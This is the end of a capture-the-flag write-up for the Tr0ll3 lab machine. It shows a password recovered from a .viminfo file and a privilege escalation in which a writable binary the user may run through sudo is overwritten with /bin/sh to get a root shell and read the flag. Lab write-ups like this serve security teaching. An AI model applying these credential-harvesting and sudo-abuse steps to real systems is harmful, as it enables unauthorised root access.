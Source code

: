 In the .viminfo file you can find information that persists throughout vim runs. If you don't disable the vim logging, you can expect to find things you typed / pasted / edited, like passwords in this case. A useful blog that describes this in more detail is http://technotes.whw1.com/computer-related/development/programming/58-how-to-stop-vim-logging-info-into-viminfo

The password belongs to maleus and now we can check his sudo privileges. We find out he can run the executable from earlier as root:

```
User maleus may run the following commands on Tr0ll3:
    (root) /home/maleus/dont_even_bother
```

From the strings, we already assume the executable itself is just a troll. However, maleus has write privileges over this file:

```
maleus@Tr0ll3:~$ ls -l
total 12
-rwxrwxr-x 1 maleus maleus 8674 Jun 18  2015 dont_even_bother
```

So we can just replace this useless binary with one that would give us a root shell:

```
maleus@Tr0ll3:~$ cat /bin/sh > dont_even_bother
maleus@Tr0ll3:~$ sudo ./dont_even_bother
[sudo] password for maleus:
# cat /root/flag.txt
You are truly a Jedi!

Twitter Proof:

Pr00fThatTh3L33tHax0rG0tTheFl@g!!

@Maleus21
```

This was another fun machine in the series. In the end, we trolled the troll again!

``` 
 ________________________________________
/ QOTD:                                  \
|                                        |
\ All I want is more than my fair share. /
 ----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

